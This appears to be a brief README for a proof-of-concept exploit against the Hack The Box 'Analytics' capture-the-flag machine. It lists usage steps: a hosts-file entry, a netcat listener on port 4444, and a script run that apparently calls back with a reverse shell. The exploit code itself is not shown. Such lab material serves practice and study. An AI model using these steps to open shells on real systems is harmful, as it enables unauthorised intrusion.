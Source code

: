 # HTB_Analytics

Usage: python3 HTB_Analytics_poc.py \<listener ip\> \<listener port\>

<p>1.echo "10.10.11.233 data.analytical.htb" >> /etc/hosts</p>
<p>2.nc -nvlp 4444</p>
<p>3.python3 HTB_Analytics_poc.py 10.10.18.18 4444</p>
